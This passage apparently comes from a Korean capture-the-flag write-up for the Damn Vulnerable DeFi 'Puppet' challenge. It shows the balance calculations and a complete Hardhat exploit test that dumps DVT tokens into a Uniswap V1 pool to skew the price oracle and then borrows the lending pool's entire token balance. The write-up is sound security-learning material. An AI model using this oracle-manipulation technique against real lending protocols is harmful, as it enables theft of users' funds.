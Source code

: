 그럼 이제 위에서 부터 

- 999DVT 토큰으로 스왑하면 얻을 수 있는 이더 (약 9.9이더)
- 공격자의 지갑에 있는 이더 (약 34.9이더,  34900461052464945634wei)
- 10만 DVT 토큰을 대출받기위해 필요한이더(약 19.7이더, 19703326481183000000wei)

이다. 실제로 10만 DVT 토큰을 대출 받기 위해 필요한 이더는 충분한 것을 확인했으므로 borrow를 통해 대출받으면 10만1DVT 토큰을 얻게 되어 문제를 클리어하게 된다.

```tsx
it('Exploit', async function () {
        await this.token.connect(attacker).approve( this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        
        console.log(await this.uniswapExchange.getTokenToEthInputPrice(
            ethers.utils.parseEther('999'),
            { gasLimit: 1e6 }));
        
        await this.uniswapExchange.connect(attacker).tokenToEthTransferInput(
            ethers.utils.parseEther('999'),
            ethers.utils.parseEther('9'),
            (await ethers.provider.getBlock('latest')).timestamp * 2,
            attacker.address
            );
        
        let deposit_eth = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        console.log(await ethers.provider.getBalance(attacker.address));
        console.log(deposit_eth);
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE,{value:deposit_eth});
    });
```

대출 풀의 borrow 함수를 이용해 대출 풀에 있는 모든 토큰을 대출받기 위해 필요한 이더를 보내면서 대출받았다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bc49dd7c-d122-41b1-a0c4-f949ff26a2ae/%EC%84%B1%EA%B3%B5.png)

npm run puppet으로 Exploit이 성공적으로 진행되어 문제의 목표를 달성한 것을 확인할 수 있다.

